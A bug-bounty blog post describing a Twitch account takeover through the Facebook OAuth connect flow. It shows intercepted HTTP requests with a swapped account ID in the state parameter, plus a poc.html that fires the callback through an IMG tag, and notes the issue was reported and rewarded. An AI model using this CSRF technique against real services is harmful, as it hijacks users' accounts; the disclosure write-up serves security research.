 +++
date = '2025-02-01T12:06:32+03:00'
draft = false
title = 'Twitch.tv Account Takeover'
hideSummary= true
+++



One day I was bored after watching livestreams, I made a decision to check for security flaws on Twitch website.
So I made two accounts. 

- ```Attacker``` 
- ```Victim``` 

I noticed there is a ```login with Facebook``` feature,to activate the login with Facebook feature, user must either use Facebook Connect in Settings or Sign up with Facebook. 
So I tried Facebook Connect feature in settings
![Facebook Connect](/img/twitch-1.png) 
 
This is a GET request that I intercepted in Burpsuite after using connect button. 

```
GET /v5/facebook/44XXXXXXX/auth HTTP/1.1
Host: api.twitch.tv
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Cookie: [REDACTED]
```
response to this query will be a 302 redirect to start Facebook oauth flow

```
GET /dialog/oauth?client_id=161273083968709&redirect_uri=https%3A%2F%2Fapi.twitch.tv%2Fv5%2Ffacebook%2Fcallback&response_type=code&scope=email&state=facebook%3Aoslt3lyobywdv5ns3syopp7porcci34e%3A44XXXXXXX HTTP/1.1
Host: www.facebook.com
```

and the user must sign in to his Facebook account and give Twitch permission to sucessfully connect his account to that particular Facebook account. 

At last this callback request was made to api.twitch.tv to complete facebook connect oauth flow.

```
GET /v5/facebook/callback?code=AQDqj[REDACTED]&state=facebook%3Aoslt3lyobywdv5ns3syopp7porcci34e%3A444XXXXXXX HTTP/1.1
Host: api.twitch.tv
```
![Facebook Connected](/img/twitch-2.png)
now that Facebook account is connected to the user’s account. 

![User's flow](/img/twitch-3.png)

During this Facebook OAuth flow, I discovered an account ID being sent and utilized in a state parameter.

I was able to obtain the account IDs of both the attacker and the victim, which can be obtained by visiting user's profile.

- ```44XXXXXXX``` Attacker
- ```45YYYYYYY``` Victim

I followed the same Facebook connect flow in the attacker session, but this time I replaced the victim’s account ID with the attacker’s account ID. 

```
GET /v5/facebook/45YYYYYYY/auth HTTP/1.1
Host: api.twitch.tv
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Cookie: [REDACTED]
```

In order to obtain my attacker's Facebook account authorization code, I intercepted and dropped this oauth callback request after forwarding to authorize attacker's Facebook account.


```
GET /v5/facebook/callback?code=AQDqj[REDACTED]&state=facebook%3Aoslt3lyobywdv5ns3syopp7porcci34e%3A45YYYYYYY HTTP/1.1
Host: api.twitch.tv
```

I created a decent proof of concept by embedding callback request in an IMG SRC tag in the following HTML code.
>poc.html
``` 
<html>
<body>
<img src="https://api.twitch.tv/v5/facebook/callback?code=AQDqj[REDACTED]8&state=facebook%3Aoslt3lyobywdv5ns3syopp7porcci34e%3A45YYYYYYY">
</body>
</html>
``` 
![Attacker's flow](/img/twitch-4.png)

When user opens that ```poc.html``` in the browser session, the attacker can use his Facebook account to log into the victim's Twitch account. 

### Video POC
{{< video src="/video/twitch.MOV" >}}


- I reported this issue to Twitch, and they rewarded me with $XXXX


